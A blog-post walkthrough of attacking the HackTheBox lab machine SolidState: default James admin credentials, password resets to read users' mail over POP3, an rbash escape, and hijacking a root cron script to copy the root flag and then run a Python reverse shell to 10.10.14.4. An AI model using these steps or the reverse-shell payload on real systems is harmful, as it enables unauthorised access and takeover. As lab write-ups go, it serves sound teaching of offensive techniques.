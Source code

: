 ```yaml
---
layout: post
title: HackTheBox | SolidState
date: 2018-07-03 23:00:00 +0000
categories:
- hackthebox
description: ''
image:
  feature: assets/img/Alchemical-Seal-Wallpaper-by-saintabyssal.png
  credit: 
  creditlink: 
---
```

This post will describe exploitation of the SolidState device on [HackTheBox](https://www.hackthebox.eu).

![](https://image.ibb.co/nHoHJb/1.png)

## Enumeration

As is tradition, we run a full nmap scan:

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|_  256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.232 [10.10.14.232]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

So one service definitely looks interesting, James 2.3.2. Typically, I would start my investigation on port 80 but based on my knowledge of the James Remote Admin tool. This service is typically left with default credentials which then can be used to change the passwords of the mail server users. From there we can access POP3 and snoop around the emails for the users.  

Logging in with Default Credentials: 

![](https://image.ibb.co/h9w4yb/2.png)

From this admin panel, we can change any user's password:

![](https://image.ibb.co/bu1hjG/3.png)

This makes it easy to enumerate each user's emails in turn.  For this we simply change each password to the user's username and then we can login to each one via POP3.  On Mindy's account we find some interesting emails.

```bash
root@kali:~/htb/SolidState# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS mindy
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

We have recovered a username and password for Mindy, so let's SSH to the machine. Sounds easy enough. 

## Privilege Escalation

### Rbash escape

When we SSH to the device, we're greeted by a restricted shell.

![](https://image.ibb.co/cpZ2jG/4.png)

Escaping restricted shells could be a post in its own right so I'd recommend reading [Escape from SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells), if you're interested in the topic.

To break out of this rbash shell we will need to use the `--noprofile` flag to bash on login as below, so rbash isn't loaded.

![](https://image.ibb.co/e1WhjG/5.png)

Upon our enumeration, we come across an interesting world-writeable file in /opt.  This might seem quite esoteric, but just remember to always check the `/opt` and `/usr/local` directories for any interesting custom packages or scripts.  Running [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) on every box you enumerate, and learning to pick out useful information is also an invaluable skill.  I recommend doing that here and finding where this file is referenced.

![](https://image.ibb.co/dk7NjG/6.png)

```python
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python

import os
import sys
if not os.geteuid() == 0:
    sys.exit("\nOnly root can run this script\n")
```

There's nothing in crontab, but considering it's been written as if only root can run it, and is owned by root, this suggests the root user may have a cron job set up for this script.  I had an inkling that this would be the case, so I wrote a script to fetch the root flag and output it to a temporary folder.  This one was definitely more down to CTF intuition than anything else.

We place the following code in tmp.py:

```python
#!/usr/bin/env python

import os

with open('/root/root.txt', 'rb') as rootfile:
    with open('/var/tmp/.crash', 'wb') as openthis:
        openthis.write(rootfile.read())
```

After a short amount of time, the flag is indeed written to the /var/tmp directory.

Getting a shell from this is then as simple as setting the python file to run any number of [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

We'll place the following in tmp.py:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.4",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Wait a few minutes and:

![](https://image.ibb.co/iBjPyb/7.png)
